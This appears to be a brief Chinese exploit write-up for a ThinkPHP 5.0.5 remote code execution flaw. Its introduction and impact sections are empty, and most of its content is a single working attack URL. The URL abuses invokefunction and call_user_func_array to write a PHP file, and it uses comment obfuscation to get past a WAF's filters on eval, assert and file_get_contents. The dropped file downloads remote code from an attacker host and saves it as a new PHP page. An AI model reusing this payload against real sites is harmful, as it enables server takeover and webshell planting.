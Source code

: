 # Thinkphp 5.0.5

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

waf对eval进行了拦截

禁止了assert函数对eval函数后面的括号进行了正则过滤

对file_get_contents函数后面的括号进行了正则过滤


```
http://url/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?>
```